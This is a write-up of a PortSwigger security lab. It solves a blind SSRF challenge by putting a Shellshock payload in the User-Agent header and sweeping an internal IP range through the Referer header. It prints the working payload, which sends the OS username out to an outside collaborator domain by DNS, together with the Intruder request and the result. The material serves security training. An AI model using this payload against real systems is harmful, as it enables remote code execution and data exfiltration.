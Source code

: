 # [Lab: Blind SSRF with Shellshock exploitation](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation)

## Lab

This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the `192.168.0.X` range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

## Scan

Burpsuite `collaborator everywhere` extension detected:

- `Collaborator Pingback (HTTP): Referer` at `/product`
- `Collaborator Pingback (HTTP): User-Agent` at `/product`

## Shellshock

is a vulnerability in bash which allows remote code execution
without confirmation. A series of random characters, () {:;} ; , confuses the bash
because it does not know what to do with them , so by default it execute the code
after it.

```shell
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
```

## Solutions

- burp's intruder:
  - positions:

    ```http
    GET /product?productId=1 HTTP/1.1
    User-Agent: () { :; }; /usr/bin/nslookup $(whoami).collaborator
    Referer: http://192.168.0.§§:8080
    ```

  - payloads: 0 -> 255
  - result: `The Collaborator server received a DNS lookup of type A for the domain name peter-kHRxU6.jqdkp06io97juf4kag3dur3tckib66uv.oastify.com.`

- submit: `peter-kHRxU6`
  
## References

shellshock: <https://www.safe.security/assets/img/research-paper/pdf/Blind%20SSRF.pdf>

